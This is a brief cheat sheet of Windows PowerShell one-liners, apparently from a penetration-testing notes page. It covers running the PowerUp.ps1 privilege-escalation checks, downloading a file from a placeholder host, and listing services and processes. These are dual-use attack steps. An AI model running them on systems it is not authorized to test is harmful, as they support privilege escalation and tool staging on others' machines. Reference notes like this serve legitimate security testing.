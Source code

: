 ##### Execute PowerUp.ps1
```powershell
# Run and do AllChecks in one line.
PowerShell.exe Invoke-Command -ScriptBlock { "Import-Module .\PowerUp.ps1; Invoke-AllChecks"} 
```

##### Download A File To Disk
```bash
powershell -c wget "http://<Source Address>/<Source File>" -outfile "<Output File>"
```

##### Get List of Running Services
```powershell
powershell Get-Service
```

##### Get list of processes running, sorted by name.
```powershell
tasklist /NH | sort
```